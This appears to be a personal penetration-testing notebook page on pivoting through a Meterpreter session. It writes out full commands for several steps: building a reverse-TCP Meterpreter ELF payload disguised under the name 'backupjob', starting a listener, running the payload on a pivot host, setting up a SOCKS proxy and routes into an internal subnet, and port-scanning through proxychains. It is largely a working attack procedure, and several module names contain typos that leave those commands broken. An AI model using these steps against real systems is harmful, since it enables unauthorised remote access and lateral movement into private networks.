 -- -
Pivot through meterpreter **not** SSH.
### Create Payload
Make a meterpreter payload that will be executed on pivot host
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=9001 -f elf -o backupjob
```
Then, [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot host
### Start Listener
```bash
msfconsole
use muli/handler
set lhost 0.0.0.0
set lport 9001
set payload linux/x64/meterpreter/reverse_tcp
run
```
### Run payload
First, [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot host
```bash
chmod +x backupjob
./backupjob
```
### Setup MSF SOCKS Proxy
```bash
# setup
use auxiliary/server/socks_proxy
set srvport 9050
set srvhost 0.0.0.0
set version 4a
run

# confirm proxy server is running
jobs

# make sure one of the following is at the end of /etc/proxychains.conf
socks4 127.0.0.1 9050
socks5 127.0.0.1 9050

# Create routes with autoroute, either will work
use post/mulit/manage/autoroute
set session 1
set subnet 172.16.5.0
run

# alternatively, from meterpreter shell, run:
run autoroute -s 172.16.5.0/23

# confirm routes were set, from meterpreter shell:
run autorun -p
```
### Use proxychains
You can now use proxychains to send your traffic through the meterpreter session
```bash
proxychains nmap 172.16.5.19 -p 3389 -sT -v -Pn
```